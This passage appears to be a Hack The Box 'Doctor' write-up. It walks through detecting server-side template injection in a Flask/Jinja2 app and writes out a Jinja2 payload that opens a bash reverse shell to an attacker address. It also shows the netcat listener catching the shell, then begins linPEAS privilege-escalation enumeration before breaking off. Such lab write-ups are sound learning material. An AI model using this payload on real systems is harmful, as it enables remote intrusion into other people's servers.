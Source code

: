 
### Method 2 - SSTI
As we can see the webserver is running with flask.  
If we go to [book.hacktricks.xyz for flask](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask) we can see a really big hint on the top of the page:  
```
Probably if you are playing a CTF a Flask application will be related to STTI
```
Se we can go to [SSTI Page](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) and read some docs.
As documented there, we can see that the attack is structured in three main phases: Detect, Identify and Exploit.  
So first of all, we need to identify SSTI.  
As we may have notice, when we insert an article, titles are shown into ```/archive```, so we can try to inject like ```{{ 7*7 }}``` and see what happens.  
```
<channel>
 	<title>Archive</title>
 	<item><title>49</title></item>
</channel>
```
so we detected that the site is affected by an SSTI vulnerability.  
Once we have detected the template injection potential, the next step is to identify the template engine.
Although there are a huge number of templating languages, many of them use very similar syntax that is specifically chosen not to clash with HTML characters. We can follow the tree on [book.hacktricks.xyz](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection), here, fuzzing the template engine we can discover what kind of exploit we can run against the application.
Following the tree and testing all payloads, we can discover that in the backend the application is running Jinja2/twig application.  
Now we can go to the exploit section, test all the available exploit for jinja2+python
```
{{config.__class__.__init__.__globals__['os'].popen('bash -c "bash -i >& /dev/tcp/10.10.14.6/4444 0>&1"').read()}}
```
We can upload our payload in title field, go to archive, and on our listener we can see:
```
root@kali:~/Documents/HTB/Boxes/Doctor# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.209] 57964
bash: cannot set terminal process group (848): Inappropriate ioctl for device
bash: no job control in this shell
web@doctor:~$
```
And we got a reverse shell as web user.

## User
Now that we have a shell as user web, following our standard approach, we can run linPEAS looking for possible privilege escalation vectors.    
After we run linPEAS, we can notice that web is part of adm group:  
```
═════════════════════════════════════════╣ Basic information ╠═════════════════════════════════════════
                                         ╚═══════════════════╝
OS: Linux version 5.4.0-42-generic (buildd@lgw01-amd64-038) (gcc version 9.3.0 (Ubuntu 9.3.0-10ubuntu2)) #46-Ubuntu SMP Fri Jul 10 00:24:02 UTC 2020
User & Groups: uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
```
And hence can read log files:  
```
╔══════════╣ Readable files belonging to root and readable by me but not world readable                                                                                                                                                      
```